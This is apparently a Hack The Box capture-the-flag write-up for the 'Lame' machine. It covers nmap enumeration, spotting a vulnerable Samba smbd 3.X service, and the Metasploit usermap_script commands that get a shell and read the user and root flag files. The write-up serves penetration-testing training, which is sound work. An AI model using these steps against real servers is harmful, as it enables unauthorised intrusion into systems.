# LAME - Machine

> [!note]
> IP 10.10.10.3 
> Linux Easy

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

## Tools

- nmap
- Metasploit

## Enumeration

- At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
- When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation

- Using metasploit we can use the exploit to shell the box.

    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > set lhost tun0
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  
- Now open home folder using terminal and find the user.txt.
   
  ```bash
  cd home
  ls
  cd makis
  ls
  cat user.txt
  ```

- Now goto root folder and find the root.txt.
  
  ```bash
  cd root
  ls
  cat root.txt
  ```

## Walkthrough

<a title="Lame HackTheBox 10.10.10.3 YouTube walkthrough" href="https://www.youtube.com/watch?v=sq0qVn3iLm0&list=PL6vr4adYIJuxZ6tzpWnpici8JX0sdPhwx&index=3" target="_blank">https://www.youtube.com/watch?v=sq0qVn3iLm0</a>


Author: [Zishan Ahamed Thandar](./)
